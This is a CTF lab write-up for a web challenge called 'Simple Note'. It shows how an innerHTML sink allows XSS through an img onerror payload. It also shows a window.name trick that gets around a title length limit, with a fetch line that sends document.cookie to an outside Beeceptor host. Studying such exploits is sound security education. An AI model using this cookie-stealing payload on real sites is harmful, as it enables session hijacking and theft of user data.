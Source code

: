 ```yaml
---
title: Simple Web - 0x09(Lab - Simple Note)
tags: [CTF, Web, eductf]

category: "Security/Course/NTU CS/Web"
---
```


# Simple Web - 0x09(Lab - Simple Note)
<!-- more -->
###### tags: `CTF` `Web` `eductf`
Challenge: https://note.ctf.zoolab.org/

## Background
[](https://www.wibibi.com/info.php?tid=402)

## Source Code
```javascript!
...
<script>
    const id = location.pathname.split('/').pop();

    fetch(`/api/note/${id}`).then(r => r.json()).then(({ title, content })=>{
        url.value = location;
        titleNode.innerHTML = title;
        contentNode.innerText = content;
    });   
</script>
...
```
For instance, if our `$id=47a8aad1b3b82dcd4decd36d`, the `script code` will fetch this data as `json` file and parse title and content.
![](https://i.imgur.com/Nwj6gCQ.png)
Then it'll change `titleNode` by `innerHTML` and change `contentNode` by `innerText`.
![](https://i.imgur.com/H8VdiIb.png)

### `innerText` VS `innerHTML`
`innerText` will filter tag but `innerHTML` will not.
For instance, `title=123` and `content=<script>123</script>`
![](https://i.imgur.com/eoXQYv5.png)


For instance, `title=<script>123</script>` and `content=123`
![](https://i.imgur.com/lGgpgQi.png)

### Analysis
According to the response, it seems has no filter of our input, so, we can choose to inject something in <font color="FF0000">`titleNode`</font>
![](https://i.imgur.com/5lNfsqw.png)


## Exploit - XSS
1. We tried to inject `<script>` tag in title but has nothing to trigger.
According to [javascript documentation](https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML#security_considerations)
    > It is not uncommon to see innerHTML used to insert text into a web page. There is potential for this to become an attack vector on a site, creating a potential security risk. 
    > Although this may look like a cross-site scripting attack, the result is harmless. HTML specifies that a \<script\> tag inserted with innerHTML should not execute.

    > However, there are ways to execute JavaScript without using \<script\> elements, so there is still a security risk whenever you use innerHTML to set strings over which you have no control. For example: 
    
    ```javascript!
    const name = "<img src='x' onerror='fetch()'>";
    el.innerHTML = name; // shows the alert
    ```

2. Use `img` tag
Payload: `<img src='x' onerror='alert(1)'>`
![](https://i.imgur.com/01YmwNW.png)

3. String limit problem...
There's something wrong, that the title has input limit with 40 character at most. So, we can use `window.name` technique that we can write our payload as long as we can.
If we set:
    ```javascript!
    top.name = 'fetch("https://sbk6401.free.beeceptor.com?sh="+document.cookie)'
    ```
    Furthermore, we set our title as:<font color="FF0000">`<img src=x onerror=eval(window.name)>`</font>

    Then if we reload this page, it'll execute the command in `top.name`
    ![](https://i.imgur.com/B8aRmbN.png)

4. Host a server by `Beeceptor`
Note that, you should change `Content-Type` to `text/html`
![](https://i.imgur.com/eg4UUpl.png)
Then we can change the Report URL as what we set in `Beeceptor`
![](https://i.imgur.com/fVTg6oI.png)

5. Detail about workflow
    ```flow
    st=>start: Start
    e=>end: get flag in Beeceptor
    op=>operation: Set title to <img src=x onerror=eval(top.name)>
    io=>inputoutput: Click Report
    op2=>operation: Set URL as  https://sbk6401.free.beeceptor.com 
    op3=>operation: Execute our script that set in beeceptor
    op4=>operation: Set top.name as our payload
    op5=>operation: redirect to https://note.ctf.zoolab.org/note/fafe93de9467a6022fb8cb19
    op6=>operation: eval(top.name)


    st->op->io->op2->op3->op4->op5->op6->e
    ```

## Reference
[在XSS测试中如何绕过字符长度限制](https://zhuanlan.zhihu.com/p/93192936)